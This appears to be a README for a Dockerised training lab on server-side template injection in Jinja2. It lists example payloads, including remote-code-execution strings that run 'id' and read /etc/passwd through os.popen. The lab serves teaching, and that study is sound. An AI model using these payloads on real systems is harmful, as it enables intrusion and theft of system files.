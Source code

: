 🔐 SSTI Lab - Server-Side Template Injection
This lab environment is designed to help you learn about Server-Side Template Injection (SSTI) vulnerabilities and enhance your web application pentesting skills.

🚀 Getting Started
1. Clone the Repository

git clone <repository-url>

cd ssti-lab

2. Run with Docker

# Build and run using Docker Compose

docker-compose up --build

# Or run manually
docker build -t ssti-lab .
docker run -p 5000:5000 ssti-lab
3. Open in Browser

http://localhost:5000

🎯 Lab Objectives
This lab allows participants to explore the following SSTI-related concepts:

Basic template injection techniques

Exploitation of the Jinja2 template engine

Achieving Remote Code Execution (RCE)

Accessing the server file system

Extracting environment variables

🔍 Example Test Payloads
Here are some basic payloads you can try in the lab:

Basic Arithmetic Test

{{ 7*7 }}

Access Environment Configuration

{{ config }}

Explore Python Objects

{{ ''.__class__.__mro__[1].__subclasses__() }}

Remote Code Execution (Jinja2)

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}

File Access Example

{{ ''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__['sys'].modules['os'].popen('cat /etc/passwd').read() }}

⚠️ Security Disclaimer
Use only for educational purposes

Do not target real systems

Run the lab in a controlled environment

Stop and clean up containers after testing

🛠️ Configuration Options
Change Listening Port
In the docker-compose.yml file:

ports:
  - "8080:5000"  # Change host port to 8080
Disable Debug Mode
In app.py:

app.run(host='0.0.0.0', port=5000, debug=False)
📚 Additional Resources
Source code preview: http://localhost:5000/source

OWASP Web Security Testing Guide: SSTI Testing

PayloadsAllTheThings GitHub: SSTI

🔧 Troubleshooting
If Port 5000 is Already in Use
docker-compose down
lsof -ti:5000 | xargs kill -9
docker-compose up
Stop and Clean Containers
docker-compose down
docker system prune -a
Author: t.me/realbobur
